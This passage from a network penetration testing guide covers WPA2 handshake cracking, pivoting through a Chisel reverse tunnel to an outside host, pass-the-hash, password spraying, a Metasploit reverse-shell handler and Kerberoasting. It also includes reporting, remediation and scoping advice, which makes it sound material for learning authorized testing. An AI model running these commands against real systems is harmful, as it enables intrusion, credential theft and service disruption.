

```bash
# 1. Enable Monitor Mode on Wireless Card
sudo airmon-ng start wlan0

# 2. Sniff Traffic & Identify Target BSSID and Channel
sudo airodump-ng wlan0mon

# 3. Target Specific BSSID and Capture WPA2 Handshake to File
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wpa_handshake wlan0mon

# 4. Deauthenticate Client to Force Handshake Re-transmission
sudo aireplay-ng --deauth 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon

# 5. Crack WPA2 4-Way Handshake with Hashcat (Mode 22000 = WPA-PBKDF2-PMKID+EAPOL)
hashcat -m 22000 wpa_handshake.hc22000 /usr/share/wordlists/rockyou.txt
```

---

## 28. Network Pivoting, Tunneling & Port Forwarding

> **Analogy:**  
> A building requires a keycard for entry. You gain access to the reception lobby (Compromised Host A). From the lobby, there is an interior door to the high-security research laboratory (Internal Network B) that the outside world cannot see. Pivoting turns the receptionist's desk into a private tunnel, allowing you to walk right through to the lab!



### 28.1 Modern Pivoting Toolset

#### 1. SSH Dynamic Port Forwarding (SOCKS Proxy)
```bash
# Create local SOCKS5 proxy on port 1080 tunneling through compromised host
ssh -D 1080 user@10.10.10.50 -N

# Route any tool through SOCKS proxy using Proxychains (/etc/proxychains4.conf -> socks5 127.0.0.1 1080)
proxychains nmap -sT -Pn -p 445,3389 172.16.1.5
```

#### 2. Chisel Reverse SOCKS Tunnel (HTTP/WebSockets)
```bash
# On Kali (Server Listener):
./chisel server -p 8000 --reverse

# On Compromised Pivot Host (Client):
./chisel client 198.51.100.5:8000 R:socks
# This opens SOCKS5 proxy on Kali on port 1080 routed directly into the internal 172.16.1.0/24 network!
```

#### 3. Ligolo-ng (Modern High-Performance TUN Interface Tunneling)
- Operates at Layer 3 using virtual TUN interfaces; supports full nmap SYN scans (`-sS`), ICMP pings, and standard routing table entries without proxychains!

---

## 29. Lateral Movement Techniques & Remote Execution

Lateral movement is the technique adversaries use to progressively move through a network environment from an initial compromised workstation to other systems.



### 29.1 Lateral Movement Command Reference

```bash
# 1. Pass-the-Hash via WMI Execution (Impacket) - Low Noise, No Service Creation
wmiexec.py -hashes :2892d26cdf84d7a70e2eb3b9f05c425e Administrator@10.10.10.55

# 2. Remote PowerShell Execution via WinRM (Evil-WinRM)
evil-winrm -i 10.10.10.55 -u Administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e

# 3. Remote Service Execution via PsExec (SMB)
psexec.py Administrator:Password123!@10.10.10.55
```

---

## 30. Post-Exploitation & Situational Awareness

Upon landing a new session on a target host:

```bash
# Rapid Windows Situational Awareness (Triage)
whoami /all                     # User, groups, privileges (SeImpersonate, etc.)
hostname; systeminfo            # OS version, build, hotfixes
netstat -ano | findstr LISTEN   # Internal listening ports
route print                     # Network interfaces, routing tables, other subnets
ipconfig /all                   # Domain name, DNS servers, DHCP server
net user; net localgroup "Administrators" # Local user accounts and local admins
```

---

## 31. Password Attacks, Password Spraying & Cracking

### 31.1 Password Spraying vs Brute-Forcing

```text
[Brute-Force Attack]                   [Password Spraying Attack]
Try 10,000 passwords against 1 user.    Try 1 password (e.g., 'Summer2026!') against 10,000 users.
Result: Account Locked Out immediately! Result: Zero Lockouts! High Probability of Compromise!
```

```bash
# Password Spraying Active Directory via NetExec (1 attempt per account, sleep 30 mins)
nxc smb 10.10.10.5 -u users.txt -p 'Welcome2026!' --continue-on-success
```

---

## 32. Exploitation Mechanics & Metasploit Framework

- **Exploit:** Code that takes advantage of a specific software bug to gain unauthorized access.
- **Payload:** The malicious code executed after the exploit succeeds (e.g., reverse shell).
- **Bind Shell:** Target host opens a listening port and waits for the pentester to connect. (Blocked by target firewalls).
- **Reverse Shell:** Target host actively initiates an outbound TCP connection back to the pentester's listener. (Bypasses inbound firewall restrictions).

```bash
# Metasploit Multi-Handler Setup (Stageless Meterpreter Listener)
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set LHOST 10.10.14.5; set LPORT 4444; run"
```

---

## 33. Wireshark, tcpdump & Packet Analysis

### 33.1 tcpdump Command Mastery

```bash
# Capture full packet payload on eth0, filter on host 10.10.10.5 and save to PCAP
sudo tcpdump -i eth0 -nn -vv -s 0 host 10.10.10.5 -w capture.pcap
```

### 33.2 Essential Wireshark Display Filters

| Analysis Objective | Wireshark Display Filter Syntax |
| :--- | :--- |
| **TCP 3-Way Handshakes** | `tcp.flags.syn == 1 && tcp.flags.ack == 0` |
| **DNS Queries & Failures**| `dns.flags.response == 0 || dns.flags.rcode != 0` |
| **HTTP POST Data & Auth**| `http.request.method == "POST"` |
| **Cleartext Telnet / FTP**| `telnet || ftp` |
| **Kerberos Errors** | `kerberos.error_code` |
| **SMB File Transfers** | `smb2.cmd == 5 || smb2.cmd == 6` |

---

## 34. How a Professional Pentester Thinks: Port-by-Port Mental Models

When encountering open ports during an assessment, a senior pentester uses systematic, hypothesis-driven decision trees:



### Port 22 (SSH)
- *Thought Process:* Banner version extraction -> Outdated OpenSSH CVEs? -> Are password logins permitted or public-key only? -> Attempt low-risk password spray against discovered user accounts -> Check for default hardware appliance credentials (`admin:admin`).

### Port 88 (Kerberos) & Port 389 (LDAP)
- *Thought Process:* Confirms this host is an **Active Directory Domain Controller**! -> Enumerate domain name -> Check anonymous LDAP bind -> Extract user list -> Execute AS-REP Roasting -> If low-priv creds acquired: Execute Kerberoasting and BloodHound graph ingest.

### Port 1433 (MS-SQL)
- *Thought Process:* Test default `sa` account password -> Check for unauthenticated database connections -> If credentials acquired: Check if `xp_cmdshell` is enabled -> Enumerate linked database servers for privilege escalation.

### Port 3389 (RDP)
- *Thought Process:* Network Level Authentication (NLA) status -> BlueKeep (CVE-2019-0708) applicability -> Valid credential validation -> Session hijacking opportunities with `tscon`.

---

## 35. Vulnerability Prioritization & Attack Chain Construction

A single low or medium finding rarely achieves business compromise. Professional penetration testing demonstrates how **multiple low-risk misconfigurations chain together into critical impact**:



---

## 36. External Network Penetration Testing Methodology

External assessments evaluate perimeter defenses from the perspective of an untrusted attacker on the Internet:

1. **Scope Verification & Ownership Validation:** Confirm public CIDR allocations belong to customer via ARIN/RIPE WHOIS.
2. **Perimeter Asset Discovery:** Subdomains, ASN mapping, public cloud storage buckets (S3, Azure Blobs), external mail and VPN portals.
3. **Port Scanning & Service Fingerprinting:** Full TCP/UDP scanning of all discovered external IP addresses.
4. **Perimeter Application Assessment:** Testing VPN endpoints for default creds/CVEs, web applications, remote management interfaces (SSH, RDP, cPanel).
5. **Breached Credential Integration:** Cross-referencing discovered corporate email addresses against historical public credential dumps (DeHashed).

---

## 37. Internal Network Penetration Testing & Assume-Breach

Internal testing evaluates the blast radius if an attacker connects to an internal network port or compromises an employee workstation via phishing:

1. **Starting Point: Rogue Laptop (No Credentials):**
   - Passive network sniffing (`netdiscover`, Wireshark).
   - Capture LLMNR / NBT-NS / mDNS broadcast queries using **Responder** to crack NetNTLMv2 hashes.
   - Sweep internal subnets for unauthenticated services, printers, IPMI consoles, and anonymous SMB shares.
2. **Starting Point: Assume-Breach Workstation (Domain User Credentials):**
   - Execute internal Active Directory enumeration (`BloodHound`, `ldapsearch`).
   - Request Kerberos tickets for all SPNs (**Kerberoasting**).
   - Test internal segmentation and inter-VLAN access controls.
   - Escalate locally on workstation to extract LSASS memory secrets.
   - Pivot laterally across domain servers to reach crown jewel databases and Domain Controllers.

---

## 38. Mapping Network Attacks to MITRE ATT&CK

| MITRE ATT&CK Tactic | Technique ID | Technique Name | Penetration Testing Activity Example |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595` | Active Scanning | Nmap port scanning and host discovery sweeps. |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploiting vulnerable web app on external perimeter. |
| **Execution** | `T1047` | Windows Management Instrumentation (WMI) | Executing commands laterally via `wmiexec.py`. |
| **Persistence** | `T1053` | Scheduled Task/Job | Creating scheduled cron job or Windows scheduled task. |
| **Privilege Escalation** | `T1068` | Exploitation for Privilege Escalation | Elevating from service account to SYSTEM via PrintSpoofer. |
| **Defense Evasion** | `T1070` | Indicator Removal | Cleaning up uploaded tools, shells, and log entries. |
| **Credential Access** | `T1558.003`| Steal or Forge Kerberos Tickets: Kerberoasting| Requesting TGS tickets for SPNs and cracking offline. |
| **Discovery** | `T1087` | Account Discovery | Enumerating AD domain users with `enum4linux-ng` / `rpcclient`.|
| **Lateral Movement** | `T1550.002`| Use Alternate Authentication: Pass the Hash | Authenticating to remote server using NTLM hash with `evil-winrm`.|
| **Collection** | `T1005` | Data from Local System | Gathering sensitive database files, financial PDFs from SMB shares.|
| **Command & Control** | `T1572` | Protocol Tunneling | Pivoting through internal networks via Chisel / Ligolo-ng.|

---

## 39. Real-World Attack Scenarios & Walkthroughs

### Scenario 1: External VPN to Enterprise Domain Takeover

```mermaid
flowchart TD
    Attacker["Attacker on Internet"] -->|1. Password spray 'Winter2026!'| VPN["Exposed Pulse Secure VPN Gateway"]
    VPN -->|2. Valid login for 'jdoe' (No MFA enforced)| InternalWS["Internal Workstation (10.100.1.25)"]
    InternalWS -->|3. Local PrivEsc via PrintSpoofer| SYSTEM["NT AUTHORITY\\SYSTEM on WS"]
    SYSTEM -->|4. Dump LSASS memory| Hash["Extracted NTLM Hash for 'svc_backup'"]
    Hash -->|5. Kerberoasting with svc_backup| TGS["Cracked TGS Hash for 'svc_sql'"]
    TGS -->|6. BloodHound reveals svc_sql has GenericAll over DC| DC["Full Domain Controller Takeover (Domain Admin)!"]
```

---

## 40. Professional Penetration Testing Reporting & Deliverables

A penetration testing report is the primary tangible deliverable presented to executive leadership and technical teams.

### 40.1 Report Structure

1. **Executive Summary:** High-level narrative written for non-technical stakeholders (CEO, Board of Directors, General Counsel). Explains overall security posture, business risks, strategic recommendations, and high-level risk heatmaps.
2. **Engagement Scope & Methodology:** Exact IP ranges, domains tested, testing timeline, and methodology used (PTES / NIST SP 800-115).
3. **Technical Vulnerability Findings:** Individual findings detailed systematically.

### 40.2 Technical Finding Template

```markdown
### [HIGH] Kerberoastable Service Accounts Configured with Weak Passwords

- **Vulnerability ID:** SEC-NET-04
- **CVSS v3.1 Score:** 7.5 (High) - `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`
- **Affected Assets:** `CORP\svc_sql` (10.10.10.5), `CORP\svc_backup` (10.10.10.6)

#### Description & Root Cause
During Active Directory enumeration, the testing team identified two service accounts registered with Service Principal Names (SPNs) configured with weak passwords. Because Kerberos preauthentication allows any authenticated domain user to request encrypted TGS tickets for these accounts, the tickets were extracted and cracked offline without generating account lockouts.

#### Step-by-Step Proof of Concept & Evidence
1. Using the low-privilege domain user `alice`, the team executed `GetUserSPNs.py`:
   ```bash
   GetUserSPNs.py corp.local/alice:Password123! -dc-ip 10.10.10.5 -request
   ```
2. The extracted TGS ticket hash for `svc_sql` was cracked within 4 minutes using Hashcat:
   ```text
   $krb5tgs$23$*svc_sql$corp.local*...:Database2026!
   ```

#### Business Impact
Compromise of the `svc_sql` service account grants direct administrative access to the central SQL database containing 500,000 customer payment records.

#### Remediation
- **Immediate Action:** Reset the password for `svc_sql` and `svc_backup` to complex passphrases (>25 characters).
- **Long-Term Strategic Fix:** Migrate all Active Directory service accounts to **Group Managed Service Accounts (gMSA)**, where Windows automatically rotates 128-character complex passwords periodically.
```

---

## 41. Remediation Engineering & Defensive Hardening

| Vulnerability Category | Immediate Tactical Fix | Long-Term Strategic Hardening | Key Windows Event Logs / Detection |
| :--- | :--- | :--- | :--- |
| **SMB Signing Disabled** | Enable SMB Signing via GPO (`Digitally sign communications (always)` = Enabled). | Disable legacy SMBv1 across all hosts; enforce SMB encryption. | Event ID `4624` (Logon Type 3); Network IDS signature for NTLMSSP relay. |
| **Kerberoasting** | Reset SPN account passwords to >25 random characters. | Deploy Group Managed Service Accounts (gMSAs). | Event ID `4769` (A Kerberos service ticket was requested with Ticket Encryption Type `0x17` - RC4). |
| **LLMNR / NBT-NS Poisoning** | Disable LLMNR and NBT-NS across all workstations via GPO. | Enforce 802.1X Network Access Control; deploy Dynamic ARP Inspection. | Event ID `4625` (Failed logon attempts with random usernames); IDS broadcast alert. |
| **Cleartext Protocol Exposure**| Terminate Telnet/FTP/HTTP services; enforce SSH/SFTP/HTTPS. | Deploy internal enterprise PKI (Active Directory Certificate Services) with mTLS. | Network capture of unencrypted ports; SIEM alerts on port 21/23/80 internal traffic. |

---

## 42. Common Pentester Mistakes & Anti-Patterns

1. **Scanning Outside Authorized Scope:** Scanning an IP that was mistyped or belongs to a third party is illegal and breaks engagement contracts. Always cross-verify IP scopes.
2. **Aggressive Scanning Causing Production Outages:** Running `nmap -T5` with 5,000 packets/sec against legacy industrial controllers, printers, or medical devices can cause them to crash or freeze.
3. **Blindly Firing Automated Exploits:** Launching Metasploit exploits without understanding their memory mechanics can result in Kernel Panic or Blue Screen of Death (BSOD).
4. **Triggering Domain-Wide Account Lockouts:** Running un-throttled password brute-forcing against Active Directory locks out hundreds of corporate employees, halting business operations.
5. **Failing to Clean Up Artifacts:** Leaving reverse shells, created local admin accounts (`pentest_admin`), or uploaded binaries on target systems post-engagement.

---

## 43. Technical Interview Preparation (Beginner to Advanced)

### Q1: What is the difference between TCP and UDP, and why is UDP scanning significantly slower in Nmap?
<details>
<summary>Click to reveal answer</summary>

**Short Answer:** TCP is connection-oriented and reliable, providing guaranteed packet delivery via 3-way handshakes. UDP is connectionless and lightweight without acknowledgments. UDP scanning is slow because open UDP ports rarely send responses, and closed UDP ports generate ICMP Port Unreachable packets that operating system kernels strictly rate-limit (e.g., Linux limits ICMP responses to 1 per second).

**Deep Technical Context:** In a TCP SYN scan, an open port immediately returns a `SYN-ACK`, allowing rapid verification. In a UDP scan (`nmap -sU`), Nmap sends an empty UDP datagram. If the application service does not return a payload, Nmap cannot distinguish whether the packet was dropped by a firewall or accepted by the service (marking it `open|filtered`), forcing repeated retransmissions.

**Interviewer Follow-up:** *How can you accelerate a UDP scan during a tight testing window?*  
**Answer:** Target only the top 50-100 high-value UDP ports (`nmap -sU --top-ports 100`) and utilize version scanning scripts (`-sV`) with custom probes.
</details>

### Q2: Explain the technical mechanics of Kerberoasting and how an attacker executes it.
<details>
<summary>Click to reveal answer</summary>

**Short Answer:** Kerberoasting is an Active Directory attack where any authenticated domain user requests a Kerberos service ticket (TGS) for a service account registered with a Service Principal Name (SPN). The ticket is encrypted with the service account's password hash; the attacker extracts the ticket from memory and cracks it offline using dictionary attacks without generating failed logon alerts.

**Technical Breakdown:**
1. Attacker sends `TGS-REQ` to Domain Controller requesting access to an SPN (e.g., `MSSQLSvc/db01.corp.local:1433`).
2. Domain Controller returns `TGS-REP` containing the service ticket encrypted with the SPN account's NTLM hash.
3. Attacker parses the ticket and uses Hashcat (Mode 13100) to crack the hash offline.

**Interviewer Follow-up:** *How do you defend against Kerberoasting?*  
**Answer:** Use Group Managed Service Accounts (gMSA) where passwords are 128 characters long and rotated automatically, or set service account passwords to random strings exceeding 25 characters.
</details>

---

## 44. The Ultimate Network Pentesting Cheat Sheets

### 44.1 Essential Nmap Commands

```bash
# Full TCP Port Scan + Service Detection + Safe NSE Scripts
sudo nmap -p- --min-rate 1000 -sC -sV -O -T4 10.10.10.50 -oA scan_results

# Fast UDP Scan for Top 100 Ports
sudo nmap -sU --top-ports 100 -sV 10.10.10.50 -oA udp_top100

# Execute Specific Vulnerability NSE Scripts
sudo nmap -p 445 --script "smb-vuln-*" 10.10.10.50
```

### 44.2 SMB & Active Directory Commands

```bash
# NetExec Share & Null Session Scan across Subnet
nxc smb 10.10.10.0/24 -u '' -p '' --shares

# Dump Active Directory Hashes via Secretsdump
secretsdump.py corp.local/admin:Pass123@10.10.10.5

# Kerberoasting Request
GetUserSPNs.py corp.local/user:Pass123@10.10.10.5 -request -outputfile hashes.kerberoast
```

---

## 45. Progressive Hands-On Lab Roadmap & Home Lab Build Guide

### 45.1 Enterprise Home Lab Architecture

```mermaid
flowchart TD
    WAN["Host Machine Internet Connection"] --> Router["pfSense Virtual Firewall / Router"]
    Router -->|Interface 1: 192.168.50.0/24| Kali["Kali Linux (Attacker VM)"]
    Router -->|Interface 2: 10.0.10.0/24 (DMZ)| WebServer["Ubuntu Server (Web / DB)"]
    Router -->|Interface 3: 10.0.20.0/24 (Internal AD)| DC["Windows Server 2022 (Domain Controller)"]
    DC --> WS["Windows 10/11 Workstation (Domain Joined)"]
```

### 45.2 Recommended Training Platforms & Labs

1. **Game of Active Directory (GOAD):** Free, open-source multi-domain Active Directory lab deployable via Vagrant/VirtualBox.
2. **HackTheBox (HTB ProLabs):** Dante, Offshore, and RastaLabs for enterprise internal network simulation.
3. **TryHackMe (THM Networks):** Holo, Wreath (Pivoting), and Enterprise AD networks.

---

## 46. Complete Network Penetration Testing Capstone Engagement

```text
================================================================================
                    CAPSTONE NETWORK PENETRATION TEST
Target Enterprise: Initech Financial Services
Scope: 10.100.10.0/24 (DMZ), 10.200.20.0/24 (Internal Core AD)
Objective: Evaluate external perimeter security, pivot into internal network,
           and demonstrate sensitive database impact.
================================================================================
```

### Phase-by-Phase Walkthrough

1. **Recon & Discovery:** Pentester discovers DMZ host `10.100.10.15` running an unauthenticated Jenkins instance on port `8080`.
2. **Initial Foothold:** Pentester executes Groovy script via Jenkins Script Console to obtain reverse shell as `jenkins` user on Linux host.
3. **Internal Pivoting:** Pentester discovers secondary network interface (`10.200.20.50`) connected to internal Active Directory subnet. Deploys **Chisel** to establish reverse SOCKS5 tunnel back to Kali.
4. **Internal Recon:** Through SOCKS proxy, runs `nxc` against `10.200.20.0/24`. Discovers Domain Controller `10.200.20.5` with anonymous LDAP bind enabled.
5. **Credential Hunting:** Extracts user list via LDAP. Discovers service account `svc_mssql` with Kerberos preauth disabled. Executes **AS-REP Roasting** and cracks password (`Summer2026!`).
6. **Lateral Movement & Crown Jewel Access:** Authenticates to Internal MSSQL Server `10.200.20.10` with `svc_mssql`. Executes queries to demonstrate extraction of customer account tables.
7. **Cleanup & Reporting:** Terminates Chisel tunnel, removes temporary payloads, and compiles executive vulnerability report.

---

## 47. Network Penetration Testing Master Checklist

### 1. Pre-Engagement & Rules of Engagement
- [ ] Signed Master Services Agreement (MSA) and Non-Disclosure Agreement (NDA) on file.
- [ ] Scoping document with explicit In-Scope IP addresses/CIDR ranges signed by client.
- [ ] Explicit Out-of-Scope systems identified and entered into exclusion lists.
- [ ] Testing windows, source IPs, and emergency escalation contacts documented.

### 2. Reconnaissance & Host Discovery
- [ ] Passive OSINT executed (WHOIS, ASN enumeration, Certificate Transparency logs).
- [ ] Multi-protocol host discovery sweep completed (ARP for L2; TCP SYN/ACK + ICMP for L3).
- [ ] Responsive live hosts cataloged into engagement database.

### 3. Port Scanning & Service Fingerprinting
- [ ] Full 65,535 TCP port scan completed across all live targets.
- [ ] Targeted top-100 UDP port scan completed.
- [ ] Service versions, banners, and OS fingerprints captured and verified.

### 4. Vulnerability Assessment & Service Enumeration
- [ ] SMB enumeration (Shares, null sessions, SMB signing status, permissions).
- [ ] RPC and NetBIOS enumeration (Endpoint mapper, RID cycling for users/groups).
- [ ] LDAP enumeration (Anonymous bind, object search, SPN extraction).
- [ ] DNS enumeration (Zone transfers `axfr`, reverse lookups, SRV records).
- [ ] SNMP enumeration (Community string brute-forcing, MIB tree walking).
- [ ] Automated vulnerability scan executed; all findings manually validated with PoC.

### 5. Active Directory & Credential Attacks
- [ ] Kerberoasting performed on all discovered SPN accounts.
- [ ] AS-REP Roasting performed on accounts with preauthentication disabled.
- [ ] Password spraying conducted within safe account lockout policy thresholds.
- [ ] BloodHound graph collection ingested and high-value attack paths analyzed.

### 6. Exploitation & Post-Exploitation
- [ ] Non-destructive initial foothold achieved on validated vulnerability.
- [ ] Local situational awareness commands executed (users, privileges, routes).
- [ ] Local privilege escalation executed to acquire root / SYSTEM privileges.
- [ ] Credentials harvested (SAM, LSASS memory, LSA secrets, configuration files).

### 7. Lateral Movement, Pivoting & Segmentation
- [ ] SOCKS proxy / Layer 3 tunnel established through dual-homed pivot hosts.
- [ ] Lateral movement executed to target servers (WMI, WinRM, PsExec, SSH).
- [ ] Inter-VLAN segmentation rules and firewall ACLs tested and validated.

### 8. Cleanup & Reporting
- [ ] All uploaded tools, scripts, payloads, and created user accounts removed.
- [ ] System configurations restored to original state.
- [ ] Comprehensive penetration testing report compiled (Executive Summary + Technical Findings).
- [ ] Report securely transmitted to client via encrypted channel.
